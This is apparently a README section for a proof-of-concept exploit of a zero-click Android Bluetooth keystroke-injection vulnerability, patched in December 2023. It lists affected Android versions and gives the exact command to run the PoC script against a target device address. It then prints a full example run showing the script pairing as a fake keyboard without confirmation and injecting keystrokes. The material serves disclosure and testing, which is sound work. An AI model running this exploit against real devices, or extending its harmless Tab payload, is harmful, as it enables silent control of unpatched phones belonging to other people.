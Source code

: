 ## Keystroke Injection

### Android Keystroke Injection

Android devices are vulnerable prior to the 2023-12-05 security patch level.

When Bluetooth is enabled on an unpatched Android device, an attacker can pair an emulated Bluetooth keyboard and inject keystrokes, without user confirmation. This is a zero-click attack that works whenever Bluetooth is enabled.

#### Affected Versions

This vulnerability affects Android ~4.2.2 and later.

- Android 4.2.2 - 10 will not be patched
- Android 11 - 14 have patches available (2023-12-05 security patch level)
- Pixel 6, 7 and 8 were patched
- Pixel 5 and older remain vulnerable

#### Starting State

- Bluetooth is enabled on the target Android device

#### Running the PoC

Run the PoC targeting Android device `5C:F3:70:AA:07:BD` using interface `hci1`.

```
./keystroke-injection-android-linux.py -i hci1 -t 5C:F3:70:AA:07:BD
```

If successful, the PoC will inject a payload of `tab` keystrokes for 10 seconds.

#### Example Output

```
> ./keystroke-injection-android-linux.py -i hci1 -t 5C:F3:70:AA:07:BD
[2024-01-07 11:03:01.329]  executing 'sudo service bluetooth restart'
[2024-01-07 11:03:01.959]  configuring Bluetooth adapter
[2024-01-07 11:03:01.963]  calling RegisterProfile
[2024-01-07 11:03:01.966]  running dbus loop
[2024-01-07 11:03:02.096]  executing 'sudo hciconfig hci1 name Hi, My Name is Keyboard'
[2024-01-07 11:03:02.108]  executing 'hciconfig hci1 name'
[2024-01-07 11:03:02.128]  executing 'sudo hciconfig hci1 class 0x002540'
[2024-01-07 11:03:02.141]  executing 'hciconfig hci1 class'
[2024-01-07 11:03:02.144]  executing 'hcitool name 5C:F3:70:AA:07:BD'
[2024-01-07 11:03:02.877]  connecting to SDP
[2024-01-07 11:03:02.877]  connecting to 5C:F3:70:AA:07:BD on port 1
[2024-01-07 11:03:03.832]  SUCCESS! connected on port 1
[2024-01-07 11:03:03.832]  executing 'sudo btmgmt --index hci1 io-cap 1'
[2024-01-07 11:03:03.847]  executing 'sudo btmgmt --index hci1 ssp 1'
[2024-01-07 11:03:03.858]  connected to SDP (L2CAP 1) on target
[2024-01-07 11:03:03.865]  'NoInputNoOutput' pairing-agent is running
[2024-01-07 11:03:04.111]  connecting to 5C:F3:70:AA:07:BD on port 19
[2024-01-07 11:03:04.864]  ERROR connecting on port 19: [Errno 22] Invalid argument
[2024-01-07 11:03:04.864]  connecting to 5C:F3:70:AA:07:BD on port 17
[2024-01-07 11:03:04.932]  SUCCESS! connected on port 17
[2024-01-07 11:03:04.932]  connecting to HID Interrupt
[2024-01-07 11:03:04.932]  connecting to 5C:F3:70:AA:07:BD on port 19
[2024-01-07 11:03:05.008]  SUCCESS! connected on port 19
[2024-01-07 11:03:05.008]  connected to HID Interrupt (L2CAP 19) on target
[2024-01-07 11:03:05.008]  connected to HID Control (L2CAP 17) on target
[2024-01-07 11:03:05.009]  [RX-17] 9000
[2024-01-07 11:03:05.009]  [TX-17] 00
[2024-01-07 11:03:05.065]  [RX-19] a20101
[2024-01-07 11:03:05.259]  [TX-19] a101000000000000000000
[2024-01-07 11:03:05.259]  injecting Tab keypresses for 10 seconds
```